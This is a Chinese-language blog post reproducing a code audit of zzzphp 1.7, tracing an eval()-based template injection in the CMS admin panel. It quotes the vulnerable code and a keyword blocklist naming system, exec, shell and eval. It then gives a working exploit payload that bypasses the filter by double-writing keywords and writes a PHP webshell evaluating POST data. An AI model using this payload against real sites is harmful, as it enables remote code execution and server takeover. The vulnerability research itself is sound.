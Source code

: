 ## 前言

有一段时间没有练习代码审计了。复现`zzzphp1.7`版本后台存在的一个任意代码执行漏洞。现在立一个`flag`:一周一套`cms`，先从复现开始，总有一天我也能挖出自己的`0day`。



## 代码审计

`index.php`调用`zzz_client.php`，跟进到这个文件的56行。

```php
 require 'zzz_template.php';
 if (conf('webmode')==0) error(conf('closeinfo'));
 $location=getlocation();
 ParseGlobal(G('sid'),G('cid'));
 //echop($location);die;
 switch ($location) {
	case 'about':
	 	$tplfile= TPL_DIR . G('stpl');
		break; 
	case 'brand':		
	... ...
    default:
	 	$tplfile=is_file(TPL_DIR . $location.'.html') ? TPL_DIR . $location.'.html'  : TPL_DIR .'index.html' ;
		break; 		
 }    
```

`getlocation()`函数用于导入模块，这个根据`url`获取。比如访问`http://127.0.0.1/search`那么模块解析时，`$location=search`。跟进到代码185行

```php
elseif($conf['runmode']==0|| $conf['runmode']==2 || $location=='search' ||$location=='form' ||$location=='screen' || $location=='app'){
	$zcontent = load_file($tplfile,$location);
	$parser = new ParserTemplate();
	$zcontent = $parser->parserCommom($zcontent); // 解析模板
	echo $zcontent;
 }
```

这里解析模块，跟进函数`$zcontent = $parser->parserCommom($zcontent);`

```php
	public
	function parserCommom( $zcontent ) {
		$zcontent = $this->parserSiteLabel( $zcontent ); // 站点标签
		$zcontent = $this->ParseInTemplate( $zcontent ); // 模板标签
		$zcontent = $this->parserConfigLabel( $zcontent ); //配置表情
		$zcontent = $this->parserSiteLabel( $zcontent ); // 站点标签
		$zcontent = $this->parserCompanyLabel( $zcontent ); // 公司标签
		$zcontent = $this->parserUser( $zcontent ); //会员信息
		$zcontent = $this->parserlocation( $zcontent ); // 站点标签
		$zcontent = $this->parserLoopLabel( $zcontent ); // 循环标签		
		$zcontent = $this->parserContentLoop( $zcontent ); // 指定内容
		$zcontent = $this->parserbrandloop( $zcontent );
		$zcontent = $this->parserGbookList( $zcontent );		
		$zcontent = $this->parserLabel( $zcontent ); // 指定内容
		$zcontent = $this->parserPicsLoop( $zcontent ); // 内容多图
		$zcontent = $this->parserad( $zcontent );
		$zcontent = parserPlugLoop( $zcontent );
		$zcontent = $this->parserOtherLabel( $zcontent );
		$zcontent = $this->parserIfLabel( $zcontent ); // IF语句
		$zcontent = $this->parserNoLabel( $zcontent );
		return $zcontent;
	}
```

跟进函数`$zcontent = $this->parserIfLabel( $zcontent ); // IF语句`

```php

	// 解析IF条件标签
	public
	function parserIfLabel( $zcontent ) {
		$pattern = '/\{if:([\s\S]+?)}([\s\S]*?){end\s+if}/';
		if ( preg_match_all( $pattern, $zcontent, $matches ) ) {
			$count = count( $matches[ 0 ] );
			for ( $i = 0; $i < $count; $i++ ) {
				$flag = '';
				$out_html = '';
				$ifstr = $matches[ 1 ][ $i ];
				$ifstr=danger_key($ifstr);
				$ifstr = str_replace( '=', '==', $ifstr );	
				$ifstr = str_replace( '<>', '!=', $ifstr );
				$ifstr = str_replace( 'or', '||', $ifstr );
				$ifstr = str_replace( 'and', '&&', $ifstr );
				$ifstr = str_replace( 'mod', '%', $ifstr );						
				//echop( $ifstr);
				@eval( 'if(' . $ifstr . '){$flag="if";}else{$flag="else";}' );
```

`eval()`这个函数会造成代码执行，所以我们只要有办法绕过这里的过滤，然后在后台修改`search.html`，写入`if标签的shell`，解析后就能造成任意代码执行。



问题在与如何绕过这些个过滤。

```
$pattern = '/\{if:([\s\S]+?)}([\s\S]*?){end\s+if}/';
```

要求代码格式如下：

```
{if:条件} 代码 {end if}
```



第二个限制`$ifstr=danger_key($ifstr);`，跟进`danger_key()`

```php
function danger_key( $s , $len=255) {
　　　　　　$danger=array('php','preg','server','chr','decode','html','md5','post','get','cookie','session','sql','del','encrypt','upload','db','$','system','exec','shell','popen','eval');   
    $s = str_ireplace($danger,"*",$s);
	return $s;
}
```

危险字符替换，可使用双写绕过。



## exp构造

问题１：危险字符替换会将字符替换成'*'，使用`str_replace`替换回来。

问题２：`$`被替换了，没办法用双写绕过，使用`get_defined_vars()`来构造，参考[https://y4er.com/post/apache-nginx-webshell/](https://y4er.com/post/apache-nginx-webshell/)

后台 - 模板管理 - 修改`search.html`，添加一行

最终exp如下：

```
{if:1)file_put_contents(str_replace('*','','Y4er.pphphp'),str_replace('*','','<?pphphp evevalal(ggetet_defined_vars()[_PPOSTOST][1]);'));//}{end if}
```



## 修复

使用`preg_replace`过滤关键字而不是`str_ireplace()`，严格控制用户输入。












